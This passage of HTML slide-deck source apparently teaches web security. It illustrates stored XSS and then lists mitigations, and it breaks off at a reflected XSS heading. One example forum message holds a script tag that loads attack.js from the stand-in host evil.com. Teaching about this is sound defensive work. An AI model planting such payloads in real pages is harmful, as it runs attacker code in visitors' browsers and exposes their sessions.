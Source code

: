 <section>

<pre><code data-trim class="html"><posts>
	<message> ...
	</message>

	<message> ...
	</message>

	<message> 
		Security sux! 
		<script src="http://evil.com/attack.js">
		</script>
	</message>

</posts></code></pre>

Now, whenever the page is visited, the script (which is hosted externally) is run in the end user's browser

</section>

<section data-markdown>

### Danger

The victim only has to visit the legitimate page, not even actively click anything, to be attacked

</section>

<section data-markdown>

### Mitigating Stored XSS

- Never insert untrusted data verbatim
- Escaping (HTML/Attribute/Javascript)
- Same Origin Policy (prevents cookies being stolen)

</section>

<section data-markdown>

### Reflected XSS

- Also known as a non-persistent attack
- Occurs when the attack is reflected off the web server, e.g: search results, errors
- The attack is usually in the form of a malicious URL, which the victim unknowingly opens

</section>

<section data-markdown>

## Reflected XSS Examples

</section>

<section>
